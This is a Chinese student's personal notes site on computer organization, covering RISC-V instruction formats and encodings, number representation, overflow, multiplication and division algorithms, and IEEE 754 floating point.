欢迎来到71229号港湾 ¶
约 217 个字 预计阅读时间 1 分钟
这里是Kailqq的笔记本，记录了我在学习过程中的一些心得和笔记，希望对你有帮助。
长期摸鱼，尽量更新
目前共 59 个页面，约 130489 字，2504 行代码。
Warning
本站部分图片使用github的图床，可能在国内网络环境会有加载不出来的情况，请耐心等待或者使用 科学上网工具
目前要做什么呢¶
- 修改域名为note.
- 搭建个人主页面(Kailqq.cc)
- 优化网站的加载速度
- 将GitHub图床的图片迁移到本地(大工程啊)
- 将概率论的笔记添加数理统计部分，造福小登(先挖坑不确定要不要写)
- 计组笔记补全
- 拼搏百天，我要考六级_(:з」∠)_
更新日志¶
约 5 个字
NOTE ↵
我的笔记¶
约 445 个字 预计阅读时间 2 分钟
用于记录课程内容或者自学知识的笔记，希望能帮助到你.

目录¶
课程笔记 ↵
计算机组成与设计 ↵
计算机组成与设计¶
约 27 个字
呃啊，硬件
目录¶
绪论
约 741 个字 预计阅读时间 3 分钟
计算机系统结构的八大伟大定律¶
-
Moore's Law The integrate circuit resource double every 18-24 months.
-
Lower-level details are hidden to higher levels
-
Make the common cases fast
-
Performance via Parallelism
-
Performance via Pipelining
-
Performance via Prediction
-
Hierarchy of memory
-
Dependability via redundancy
常见名词和计算¶
CPU时钟周期 ：一个是时钟脉冲所需要的时间，也叫节拍脉冲或T周期，它是CPU中最小的时间单位 主频(CPU时钟频率)：1秒中的时钟脉冲数，即时钟周期的倒数
CPI：执行一条指令所需要的时钟周期数 = 总时钟周期数/IC，一般与编译器有关；
IC：总指令数
CPU执行时间：运行一个程序所花费的时间 = CPU时钟周期数/主频 = (指令条数*CPI)/主频
影响CPU time 的因素有很多
值得注意的是，若给出测试程序包含多条指令，则CPI就是这几条指令的数学期望
Example
| 指令类型 | 所占比例 | CPI |
|---|---|---|
| A | 50% | 2 |
| B | 20% | 3 |
| C | 10% | 4 |
| D | 20% | 5 |
MIPS：每秒执行多少百万条指令 = 指令条数/(执行时间x106) = 主频/CPI
ISA:指令集合架构(Instruction Set Architecture)
定义了计算机硬件与软件之间的接口。它具体包括：
- 支持的指令类型（数据处理、控制、输入/输出等）
- 数据类型（整数、浮点数、字符等）
- 寄存器设计（寄存器数量和类型）
- 地址模式（如何计算指令操作数的地址）
RISC
RISC（Reduced Instruction Set Computing）是一种指令集设计理念
- 指令数量较少，且所有指令都在单个时钟周期内执行。
- 每条指令长度相同，通常为固定大小。
- 使用大量的寄存器以减少内存访问。
- 简化的寻址模式，提高了执行效率。
- 硬件设计更简单，易于流水线操作，提高了性能。
MISC
MISC（Minimal Instruction Set Computing）是一种极简指令集设计
- 指令集非常小，通常只有几条基本指令。
- 每条指令可能需要多个周期才能执行。
- 多数指令依赖于程序的所有操作通过少量基本指令组合完成。
- 硬件实现简单，小型设备或特定应用中常见。
CISC
CISC（Complex Instruction Set Computing）是另一种指令集设计理念
- 包含大量指令，且每条指令可以执行复杂的操作。
- 指令长度不固定，许多指令可以通过一条指令进行多步操作。
- 支持更多的寻址模式和数据类型。
- 可以减少程序的大小，因为许多操作可以通过单条指令完成。
Instructions: Language of the Computer¶
约 2804 个字 5 行代码 预计阅读时间 10 分钟
Thanks
本节笔记中使用到的RISC-V指令表格样式来自@TonyCrane
Introduction¶
-
Language of the machine
- Instructions(指令)
- Instruction set(指令集)
-
Computer Designer goals
- Find a language that makes it easy to build hardware and compiler.(简单易用)
- Maximize performance(同样的资源性能更好)
- Minimize cost & energy (同样的性能成本更低)
- Clarity of its application (易用)
- Simplicity: reduce design time (便于设计)
Our chosen instruction set: RISC V
各种指令集的区别

Von Neumann’ Computer
如今的计算机是基于两个核心原理构建的：存储程序概念。 这两个原理分别是：
- 指令被表示为数字；
- 程序可以像数字一样存储在内存中，以便读取或写入。
四个设计理念：
- Simplicity favors regularity 指令集的设计应该尽可能简单，规则。
- Smaller is faster 尽可能减少指令集的大小，以便提高速度。
- Good design demands good compromises 设计指令集时，需要权衡各种因素。
- Make the common case fast 优化常见情况的执行速度。
当设计ISA时，需要**硬件简单--让芯片只实现基本的原语并能快速运行**，指令要规整
Instruction characteristics¶
指令集的基本结构
operator+operands

Note
不同的操作系统，字的长度不同，比如32位系统，字长为32位(4 Byte)，64位系统，字长为64位(8 Byte)。
边界对齐送地址，最后两位是00
RISC-V 指令集¶
| 寄存器 | ABI 名称 | 用途描述 | saver |
|---|---|---|---|
| x0 | zero | 硬件 0 | |
| x1 | ra | 返回地址（return address） | caller |
| x2 | sp | 栈指针（stack pointer） | callee |
| x3 | gp | 全局指针（global pointer） | |
| x4 | tp | 线程指针（thread pointer） | |
| x5 | t0 | 临时变量/备用链接寄存器（alternate link reg） | caller |
| x6-7 | t1-2 | 临时变量 | caller |
| x8 | s0/fp | 需要保存的寄存器/帧指针（frame pointer） | callee |
| x9 | s1 | 需要保存的寄存器 | callee |
| x10-11 | a0-1 | 函数参数/返回值 | caller |
| x12-17 | a2-7 | 函数参数 | caller |
| x18-27 | s2-11 | 需要保存的寄存器 | callee |
| x28-31 | t3-6 | 临时变量 | caller |
RISC-V 指令集的类型
R-type指令是指令集中的一种类型，它们的操作码字段是固定的，而剩余的字段则根据指令的具体功能而变化。R-type指令通常用于执行算术运算和逻辑运算等操作;R-type指令的格式如下所示：
| 31 | 25 | 24 | 20 | 19 | 15 | 14 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||
| funct7 | rs2 | rs1 | funct3 | rd | opcode | ||||||||||||||||||||||||||
rd = rs1 op rs2,有时候rs1,rs2,又称为rs,rt
R-type指令
| Instruction | Name | Meaning |
|---|---|---|
| ADD | Addition | Adds two values and stores the result in the destination register. |
| SUB | Subtraction | Subtracts the second value from the first and stores the result in the destination register. |
| SLT | Set Less Than | Sets the destination register to 1 if the first value is less than the second (signed), otherwise sets to 0. |
| SLTU | Set Less Than Unsigned | Sets the destination register to 1 if the first value is less than the second (unsigned), otherwise sets to 0. |
| AND | Logical AND | Performs a bitwise AND operation between two values and stores the result in the destination register. |
| OR | Logical OR | Performs a bitwise OR operation between two values and stores the result in the destination register. |
| XOR | Logical XOR | Performs a bitwise XOR (exclusive OR) operation between two values and stores the result. |
| SLL | Shift Left Logical | Shifts the bits of the first value to the left by the number of positions specified by the second value, filling with zeros. |
| SRL | Shift Right Logical | Shifts the bits of the first value to the right by the number of positions specified, filling with zeros. |
| SRA | Shift Right Arithmetic | Shifts the bits of the first value to the right by the number of positions specified, maintaining the sign bit. |
常见的R-type指令
| 31 | 25 | 24 | 20 | 19 | 15 | 14 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||
| 0000000 | rs2 | rs1 | 000 | rd | 0110011 | ||||||||||||||||||||||||||
- 使用格式
ADD rd,rs1,rs2rd = rs1 + rs2 - 溢出将会被忽略
| 31 | 25 | 24 | 20 | 19 | 15 | 14 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||
| 0100000 | rs2 | rs1 | 000 | rd | 0110011 | ||||||||||||||||||||||||||
- 使用格式
SUB rd,rs1,rs2rd = rs1 - rs2 - 溢出将会被忽略
| 31 | 25 | 24 | 20 | 19 | 15 | 14 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||
| 0000000 | rs2 | rs1 | 010 | rd | 0110011 | ||||||||||||||||||||||||||
- 使用格式
SLT rd,rs1,rs2rd = ($signed(rs1) < $signed(rs2)) ? 1 : 0 - 有符号数的比较
| 31 | 25 | 24 | 20 | 19 | 15 | 14 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||
| 0000000 | rs2 | rs1 | 011 | rd | 0110011 | ||||||||||||||||||||||||||
- 使用格式
SLTU rd,rs1,rs2rd = (rs1 < rs2) ? 1 : 0 - 进行无符号数的比较
| 31 | 25 | 24 | 20 | 19 | 15 | 14 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||
| 0000000 | rs2 | rs1 | 111 | rd | 0110011 | ||||||||||||||||||||||||||
- 使用格式
AND rd,rs1,rs2rd = rs1 & rs2 - 按位的与操作
| 31 | 25 | 24 | 20 | 19 | 15 | 14 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||
| 0000000 | rs2 | rs1 | 110 | rd | 0110011 | ||||||||||||||||||||||||||
- 使用格式
OR rd,rs1,rs2rd = rs1 | rs2 - 执行按位或操作
| 31 | 25 | 24 | 20 | 19 | 15 | 14 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||
| 0000000 | rs2 | rs1 | 100 | rd | 0110011 | ||||||||||||||||||||||||||
- 使用格式
XOR rd,rs1,rs2rd = rs1 ^ rs2 - 执行按位异或操作
| 31 | 25 | 24 | 20 | 19 | 15 | 14 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||
| 0000000 | rs2 | rs1 | 001 | rd | 0110011 | ||||||||||||||||||||||||||
- 使用格式
SLL rd,rs1,rs2rd = rs1 << rs2[4:0] - 逻辑左移
- 取
rs2的低五位进行运算
| 31 | 25 | 24 | 20 | 19 | 15 | 14 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||
| 0000000 | rs2 | rs1 | 101 | rd | 0110011 | ||||||||||||||||||||||||||
- 指令格式:
srl rd,rs1,rs2,rd=rs1>>rs2[4:0] - 取
rs2的低5位
| 31 | 25 | 24 | 20 | 19 | 15 | 14 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||
| 0100000 | rs2 | rs1 | 101 | rd | 0110011 | ||||||||||||||||||||||||||
- 指令格式
sra rd,rs1,rs2;rd = $signed(rs1) >>> rs2[4:0] - 算数右移，高位补符号位(为什么没有算数左移,因为没意义)
使用寄存器和立即数进行数字逻辑运算，以及 load 类指令等的指令格式如下：
| 31 | 20 | 19 | 15 | 14 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||||
| imm[11:0] | rs1 | funct3 | rd | opcode | |||||||||||||||||||||||||||
立即数为
即将立即数的最高位符号位进行扩展到32位常见的I-type指令
| 31 | 20 | 19 | 15 | 14 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||||
| imm[11:0] | rs1 | 000 | rd | 0010011 | |||||||||||||||||||||||||||
- 指令格式：
addi rd, rs1, immrd = rs1 + imm imm范围为12位有符号数字-2048~2047
| 31 | 20 | 19 | 15 | 14 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||||
| imm[11:0] | rs1 | 010 | rd | 0010011 | |||||||||||||||||||||||||||
- 使用格式
slti rd,rs1,immrd = ($signed(rs1) < $signed(imm)) ? 1 : 0 - 有符号数的比较
| 31 | 20 | 19 | 15 | 14 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||||
| imm[11:0] | rs1 | 011 | rd | 0010011 | |||||||||||||||||||||||||||
- 使用格式
sltiu rd,rs1,immrd = (rs1 < imm) ? 1 : 0 - 进行无符号数的比较,
rs1和imm都是无符号数
| 31 | 20 | 19 | 15 | 14 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||||
| imm[11:0] | rs1 | 111 | rd | 0010011 | |||||||||||||||||||||||||||
- 使用格式
andi rd,rs1,immrd = rs1 & imm imm范围在-2048~2047，位数不够时会扩展符号位
| 31 | 20 | 19 | 15 | 14 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||||
| imm[11:0] | rs1 | 110 | rd | 0010011 | |||||||||||||||||||||||||||
- 使用格式
ori rd,rs1,immrd = rs1 | imm imm范围在-2048~2047，位数不够时会扩展符号位
| 31 | 20 | 19 | 15 | 14 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||||
| imm[11:0] | rs1 | 100 | rd | 0010011 | |||||||||||||||||||||||||||
- 使用格式
xori rd,rs1,immrd = rs1 ^ imm imm范围在-2048~2047，位数不够时会扩展符号位- 需要注意的是
xori rd,rs1,-1等价于与全1异或:rd=~rs1
| 31 | 25 | 24 | 20 | 19 | 15 | 14 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||
| 0000000 | shamt | rs1 | 001 | rd | 0010011 | ||||||||||||||||||||||||||
- 使用格式
slli rd,rs1,shamtrd = rs1 << shamt - 逻辑左移
shmat在原来rs2的位置上,为五位立即数；此时空出来相当于原来的func7
| 31 | 25 | 24 | 20 | 19 | 15 | 14 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||
| 0000000 | shamt | rs1 | 101 | rd | 0010011 | ||||||||||||||||||||||||||
- 使用格式
srli rd,rs1,shamtrd = rs1 >> shamt - 逻辑右移
shmat在原来rs2的位置上,为五位立即数；此时空出来相当于原来的func7
| 31 | 25 | 24 | 20 | 19 | 15 | 14 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||
| 0100000 | shamt | rs1 | 101 | rd | 0010011 | ||||||||||||||||||||||||||
- 使用格式
srai rd,rs1,shamtrd = $signed(rs1) >>> shamt - 算数右移，高位补符号位
| 31 | 20 | 19 | 15 | 14 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||||
| imm[11:0] | rs1 | 000 | rd | 1100111 | |||||||||||||||||||||||||||
- 使用格式
jalr rd,rs1,immrd = pc+4; pc = (rs1 + imm) & ~1,即最低位为0 - 可以实现任意位置的跳转
| 31 | 20 | 19 | 15 | 14 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||||
| imm[11:0] | rs1 | 000 | rd | 0000011 | |||||||||||||||||||||||||||
- 使用格式
lb rd,imm(rs1)rd = {{24M[rs1+imm][7]},M[rs1 + imm][7:0]} - 从内存的
rs1+imm地址处读取一个字节的数据，符号扩展到32位，存到rd中
| 31 | 20 | 19 | 15 | 14 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||||
| imm[11:0] | rs1 | 001 | rd | 0000011 | |||||||||||||||||||||||||||
-
使用格式
lh rd,imm(rs1)rd = {{16M[rs1+imm][15]},M[rs1 + imm][15:0]} -
从内存的
rs1+imm地址处读取一个半字的数据，存到rd的低16位，符号扩展到32位
| 31 | 20 | 19 | 15 | 14 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||||
| imm[11:0] | rs1 | 010 | rd | 0000011 | |||||||||||||||||||||||||||
- 使用格式
lw rd,imm(rs1)rd = M[rs1 + imm] - 从内存的
rs1+imm地址处读取一个字的数据，存到rd中
| 31 | 20 | 19 | 15 | 14 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||||
| imm[11:0] | rs1 | 100 | rd | 0000011 | |||||||||||||||||||||||||||
- 使用格式
lbu rd,imm(rs1)`rd = M[rs1 + imm][7:0] - 从内存的
rs1+imm地址处读取一个字节的数据，零扩展到32位，存到rd中(高位全0)
| 31 | 20 | 19 | 15 | 14 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||||
| imm[11:0] | rs1 | 101 | rd | 0000011 | |||||||||||||||||||||||||||
- 使用格式
lhu rd,imm(rs1)rd = M[rs1 + imm][15:0] - 从内存的
rs1+imm地址处读取一个半字的数据，零扩展到32位，存到rd中(高位全0)
| 31 | 20 | 19 | 15 | 14 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||||
| 000000000000 | 00000 | 000 | 00000 | 1110011 | |||||||||||||||||||||||||||
ecall 系统调用
| 31 | 20 | 19 | 15 | 14 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||||
| 000000000001 | 00000 | 000 | 00000 | 1110011 | |||||||||||||||||||||||||||
ebreak ,将控制流转到调试环境
store 类指令，将寄存器中的数据存储到内存中，存储的大小由func3决定,没有rd寄存器
| 31 | 25 | 24 | 20 | 19 | 15 | 14 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||
| imm[11:5] | rs2 | rs1 | funct3 | imm[4:0] | opcode | ||||||||||||||||||||||||||
rd的5位和func7的7位一共12位组合成一个立即数
常用的S-type指令
| 31 | 25 | 24 | 20 | 19 | 15 | 14 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||
| imm[11:5] | rs2 | rs1 | 000 | imm[4:0] | 0100011 | ||||||||||||||||||||||||||
- 使用格式
sb rs2,imm(rs1)M[rs1 + imm] = rs2[7:0] - 将
rs2的低8位存到内存的rs1+imm地址处
| 31 | 25 | 24 | 20 | 19 | 15 | 14 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||
| imm[11:5] | rs2 | rs1 | 001 | imm[4:0] | 0100011 | ||||||||||||||||||||||||||
sh rs2,imm(rs1) M[rs1 + imm] = rs2[15:0]
- 将rs2的低16位存到内存的rs1+imm地址处
| 31 | 25 | 24 | 20 | 19 | 15 | 14 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||
| imm[11:5] | rs2 | rs1 | 010 | imm[4:0] | 0100011 | ||||||||||||||||||||||||||
- 使用格式
sw rs2,imm(rs1)M[rs1 + imm] = rs2 - 将
rs2存到内存的rs1+imm地址处
在RISC-V指令集中，B型（B-type）指令用于条件分支，根据比较结果决定是否跳转到指定的偏移地址。B型指令通常包含两个寄存器进行比较以及一个立即数偏移量（表示跳转的距离）。
| 31 | 25 | 24 | 20 | 19 | 15 | 14 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||
| imm[12,10:5] | rs2 | rs1 | funct3 | imm[4:1,11] | opcode | ||||||||||||||||||||||||||
立即数为
最低位为0，不存；扩展到imm[12]位；将13位拼接完后，剩下高19位用inst[31]符号位填充,此时imm[11]可以不是符号位；imm[12]是符号位
常用的B-type指令
| 31 | 25 | 24 | 20 | 19 | 15 | 14 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||
| imm[12,10:5] | rs2 | rs1 | 000 | imm[4:1,11] | 1100011 | ||||||||||||||||||||||||||
- 使用格式:
beq rs1,rs2,immif(rs1 == rs2) pc = pc + imm - 可以跳转到\(\pm 2^{12}Byte\)的位置,即\(\pm 4KiB\)
| 31 | 25 | 24 | 20 | 19 | 15 | 14 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||
| imm[12,10:5] | rs2 | rs1 | 001 | imm[4:1,11] | 1100011 | ||||||||||||||||||||||||||
- 使用格式:
bne rs1,rs2,immif(rs1 != rs2) pc = pc + imm - 可以跳转到\(\pm 2^{12}Byte\)的位置,即\(\pm 4KiB\)
| 31 | 25 | 24 | 20 | 19 | 15 | 14 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||
| imm[12,10:5] | rs2 | rs1 | 100 | imm[4:1,11] | 1100011 | ||||||||||||||||||||||||||
- 使用格式:
blt rs1,rs2,immif($signed(rs1) < $signed(rs2)) pc = pc + imm - 有符号数
| 31 | 25 | 24 | 20 | 19 | 15 | 14 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||
| imm[12,10:5] | rs2 | rs1 | 101 | imm[4:1,11] | 1100011 | ||||||||||||||||||||||||||
- 使用格式:
bge rs1,rs2,immif($signed(rs1) >= $signed(rs2)) pc = pc + imm - 有符号数
| 31 | 25 | 24 | 20 | 19 | 15 | 14 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||
| imm[12,10:5] | rs2 | rs1 | 110 | imm[4:1,11] | 1100011 | ||||||||||||||||||||||||||
- 使用格式:
bltu rs1,rs2,immif(rs1 < rs2) pc = pc + imm - 无符号数比较
| 31 | 25 | 24 | 20 | 19 | 15 | 14 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||
| imm[12,10:5] | rs2 | rs1 | 111 | imm[4:1,11] | 1100011 | ||||||||||||||||||||||||||
- 使用格式:
bgeu rs1,rs2,immif(rs1 >= rs2) pc = pc + imm - 无符号数比较
| 31 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||||||||
| imm[31:12] | rd | opcode | |||||||||||||||||||||||||||||
没有源操作数，只有目的操作数，立即数为
U-type指令
| 31 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||||||||
| imm[31:12] | rd | 0110111 | |||||||||||||||||||||||||||||
- 使用格式
lui rd,immrd = imm << 12 - 将
imm位存入rd高20位 imm不能超过20位
| 31 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||||||||
| imm[31:12] | rd | 0010111 | |||||||||||||||||||||||||||||
- 使用格式
auipc rd,immrd = pc + imm << 12 - aupic意思是add upper immediate to pc，将imm 加载到高 20 位，然后加上 pc 值
imm不能超过20位
| 31 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||||||||
| imm[20,10:1,11,19:12] | rd | opcode | |||||||||||||||||||||||||||||
立即数为
imm最低位0不存，此时imm[20]是符号位，imm相当于21位有符号数
,跳转范围是\(\pm 2^{20}\)
JAL指令
| 31 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||||||||
| imm[20,10:1,11,19:12] | rd | 1101111 | |||||||||||||||||||||||||||||
- 使用格式
jal rd,immrd = pc + 4; pc = pc + imm - 将
pc+4存入rd，然后跳转到pc+imm处 - Jal指令的跳转范围是\(\pm 2^{20}Byte\)，即\(\pm 1MiB\)
Arithmetic for Computer¶
约 4102 个字 5 行代码 预计阅读时间 14 分钟
Introduction¶
计算机中的指令可以分为三类：
memory-reference instructions
lw, sw
需要 ALU 计算内存地址
lw指的是 load word, 从内存中读取一个字，sw指的是 store word, 将一个字存入内存。
arithmetic-logical instructions
add, sub, and, or, xor, slt
需要 ALU 进行计算
slt指的是 set less than, 如果第一个操作数小于第二个操作数，那么将结果设置为 1，否则为 0。
control flow instructions
beq, bne, jal
需要 ALU 进行条件判断
beq指的是 branch equal, 如果两个操作数相等，那么跳转到指定地址。bne指的是 branch not equal, 如果两个操作数不相等，那么跳转到指定地址。jal指的是 jump and link, 跳转到指定地址并将下一条指令的地址存入寄存器。
Signed Number Formats(有符号数的表示)¶
- Sign and magnitude
- 2's Complement
- 1's Complement
- Biased notation
what is biased notation
偏置表示法（或 偏移表示法 ）是一种在计算机科学中常用的数值编码系统，主要用于表示正数和负数。它通过引入一个 偏置 或 偏移量 到实际数值，使得所有编码的数字都是非负数，这样可以简化硬件实现。在浮点数表示等系统中，这种方法特别有用。
- 偏置或偏移量: 在编码时给实际数值加上一个固定的偏置。
-
编码过程:
当一个数字要被编码时，需要将其值加上一个固定的偏置。例如，如果偏置是 127，而数字是 -5，那么编码后的值将是 \(-5 + 127 = 122\)。 -
解码过程:
当需要解码时，解码器将从编码后的数字中减去偏置，以恢复原始的值。例如，编码值 122 经过解码时，减去 127 得到原始值 \(-5\)。
假设我们使用 8 位二进制数来表示数字，偏置设定为 127：
-
编码时：
- 数字 0 编码为 \(0 + 127 = 127\)，即二进制表示为
01111111 - 数字 5 编码为 \(5 + 127 = 132\)，即二进制表示为
10000100 - 数字 -3 编码为 \(-3 + 127 = 124\)，即二进制表示为
01111100
- 数字 0 编码为 \(0 + 127 = 127\)，即二进制表示为
-
解码时：
- 如果读取到
01111111，对应的值为 \(127 - 127 = 0\) - 如果读取到
10000100，对应的值为 \(132 - 127 = 5\) - 如果读取到
01111100，对应的值为 \(124 - 127 = -3\)
- 如果读取到
-
应用场景：
偏置表示法常用于 浮点数表示，尤其是在IEEE 754 标准中，浮点数的指数部分使用了偏置表示法。这使得指数可以同时表示正数和负数，简化了硬件电路的设计与实现。
偏置表示法通过添加一个固定的偏移量，使数值表示更加方便，特别是在底层硬件实现上有较大优势。
Why we need biased notation

上图是 32 位的二进制补码表示，我们可以看到左侧二进制表示，如果看作无符号数，那他们是从小到大排列的；但右侧对应的十进制整数确实分段单增的。
我们希望有一种这样的表示，能够让右侧的对应的值也单调递增。
一个想法是对右侧数加上 \(2^{31}\), 相当于其二进制表示下最高位翻转。
计算偏移码
在没有说明的情况下，\([X]_b = 2^n + X\) 从二进制码到移码，只需要翻转符号位即可。
在 IEEE 标准中，偏移码要加上 \(2^{n-1}-1\) 而不是 \(2^{n}\)
Arithmetic¶
- Addition
- Substraction(通过加法实现，减去一个数等于加上这个数的补码)
- Overflow detection:
Overflow detection
无符号数的溢出：

有符号数的溢出：

在二进制加减法中，溢出（Overflow）是指计算结果超出了可表示的数值范围，通常发生在 有符号数 运算中。
在设计加减法器时，通常在数据位的基础上再增加一位用于判断是否溢出或者进位。这一位通常称为 溢出位（Overflow Bit）或 进位位（Carry Bit）。
有符号数的溢出有以下几种情况
| Operation | Operand A | Operand B | Result overflow |
|---|---|---|---|
| A + B | ≥ 0 | ≥ 0 | < 0 (01) |
| A + B | < 0 | < 0 | ≥ 0 (10) |
| A - B | ≥ 0 | < 0 | < 0 (01) |
| A - B | < 0 | ≥ 0 | ≥ 0 (10) |
可以发现，溢出时\(C_n \oplus C_{n-1}\)即进位位和最高位的异或结果为1。
而对于无符号数，只有一种情况会发生溢出，即结果大于可表示的最大值，carry bit为1。
Key-point
当ALU使用的是加减法操作时，才有\(C_n \oplus C_{n-1}\)
Constructing an ALU

注: RISC-V 不支持 nor 指令。
Multiplication¶
Unsigned multiplication¶
Version 1
第一种乘法器，判断乘数的最低位是否为 1，如果是则被乘数加部分和存到结果里面，否则加0。每次左移被乘数，右移乘数。


需要 64+64+32 bit 的寄存器，和一个 64 bit ALU.
Version 2
在Version1中，实际上每次进行的加法都是32位的，每次加完以后，product的最低位就不会变化，因此我们可以使用32位的ALU，每次右移product而不是左移乘数，然后让乘数与product相加即可。

这样原本需要64+64+32 bit 的寄存器，和一个 64 bit ALU. 变成了 32+64+32 bit 的寄存器，和一个 32 bit ALU.

Version3
Version2中，64位的product每次右移，其中只有高32位有用，那么低32位恰好可以用来存放乘数。这样我们就可以只用32位的寄存器和ALU来实现乘法。


例-4位乘法,高四位结果，低四位乘数

Signed multiplication¶
有符号相乘不能直接乘，可以先用符号位决定结果符号，再对绝对值进行乘法。
Booth's Algorithm

思想：如果有一串 1, 减掉乘数的第一个 1, 后面的 1 的序列进行移位，当上一步是最后一个 1 时加。
最开始把积放在高位，被乘数放在低位。（数据保存方法同 2.1.1）默认 \(bit_{-1}=0\)
-
Action
- 10 - subtract multiplicand from left
- 11 - nop
- 01 - add multiplicand to left half
- 00 - nop
每个操作结束后都要移位，和 2.1.1 中类似
Key-point
需要注意的是 Booth算法中，每一次是两位两位看，对于\(n\)位的，需要进行\(n\)次操作,但是两位两位看只能看到\(n-1\)位，因此开始之前是需要在最后一位加上一个 0 再开始做乘法的
注意移位时不要改变符号位。
Example

被乘数 Multiplicand 是 0010, 乘数 Multiplier 是 1101.
最开始将积 0000 放在高四位, 1101 作为乘数放在低四位。
最开始 10, 即执行减操作, \(0000-0010=1110\). 答案依然放在高四位，随后右移，以此类推。
注意右移的时候是 算术右移 ，即符号位不变。
Faster Multiplication¶
32 位数乘 32 位数，相当于 32 个 32 位数相加。（并行加速）

Division¶
Version
- At At first the divisor is in the left half of the divisor register,the dividend is in the right half of the remainder register.
- Shift the divisor right each step

即对每一步，都在余数中减去除数，如果结果大于等于0，那么商左移上1，否则将结果加回去，商左移上0。
需要注意的是,由于一开始remainder寄存器右边是被除数，divisor寄存器左半边是除数，前很多次的结果都是负的
7 / 2
\(00000111 / 0010\)

Version
优化过程与乘法类似，因为每次都是remainder的最高位在减，减完就没用了，可以移出去，不再右移divisor，而是左移remainder，并且将quotient也存在Remainder寄存器每次左移产生的空位中


Key-point
remainder 寄存器其实要多一位的，因为最后一步要右移，不能直接把它丢掉
Eg

!!!question "为什么除法的移位这么奇怪“ 对于Version1，要进行 \(n+1\) 次的移位，是为了在最后一步将商补全，同时也抵消最后一步的影响来满足余数的正确性； 对于Version2，要进行第一次的整体左移是为了得到正确的余数，而在最后一步中，由于商还要进来，余数会多出一位，因此要左半部分右移一位。
对于有符号数的除法，用绝对值来做，然后在结果上加上符号位
sign of quotient = sign of dividend \(\oplus\) sign of divisor
sign of remainder = sign of dividend
Floating point number¶
进制转换
二进制小数转十进制，如果是科学计数法，可以先仿照十进制的科学计数法用指数进行小数点的移动，然后再转换，这样可以减少计算小数的次数。
十进制转换二进制，可以先转换整数部分，再转换小数部分，小数部分可以依次与\(2^{-n}\)比较，如果大于等于，那么结果的第 n 位为 1，否则为 0，上了 1 之后，要减去 \(2^{-n}\)，再继续比较，直到达到精度的要求。
| S | exp | frac | |
|---|---|---|---|
| Float(位数) | 1 | 8 | 23 |
| Double(位数) | 1 | 11 | 52 |
Normalized form: \(N=(-1)^S\times M\times 2^E\)
- S: sign. \(S=1\) indicates the number is negative.
- M: 尾数. Normally, \(M=1.frac=1+frac\).
- E: 阶码. Normally, \(E=exp-Bias\) where \(Bias=127\) for floating point numbers. \(Bias = 1023\) for double.
Key-point
- 为什么要把 exponent 放在前面？（因为数的大小主要由 exponent 决定。）
- 为什么需要 Bias？（移码）可以不保存负数，用的是IEEE标准，即对于8位的移码，\(Bias=2^{7}-1=127\)，对于11位的移码，\(Bias=2^{10}-1=1023\)。
- 以上是规格化数，尾数前应该有前导 1，就类似于十进制的科学计数法，前导必须大于0小于10.对于2进制，前导必须大于0小于2，也就是1.
Denormal Numbers¶
- \(Exponent=000\ldots 0\)
非规格化数，让数在较小时能逐渐下溢出，在Exponent的部分以全零作为保留字，但是并不代表指数是0，而是说此时的小数不是1.xxxx而是0.xxxx。
\(x=(-1)^s\times((0+Fraction)\times 2^{1-Bias})\)
注意此时指数是 \(1-Bias=-126/-1022\).

Precision¶
- signle: approx \(2^{-23}\)
\(23\times \log_{10}{2} \approx 23\times 0.3 \approx 7\) demical digits of precision. - double: approx \(2^{-52}\)
\(52\times \log_{10}{2}\approx 52\times 0.3 \approx 16\) demical digits of preicsion.
Limitations¶
- Overflow: The number is too big to be represented
- Underflow: The number is too small to be represented
Floating-Point Addition¶
-
Alignment
统一指数，一般小的往大的变。因为系统精度位数有限，如果将大的往小的变，那可能会因此损失较大。Example

-
The proper digits have to be added
- Addition of significands
- Normalization of the result
- Rounding
Example

FP Adder Hardware

- step 1 在选择指数大的，并进行对齐。同时尾数可能还要加上前导 1.
- step 3 是对结果进行标准化。
- 蓝色线为控制通路，黑色线为数据通路。
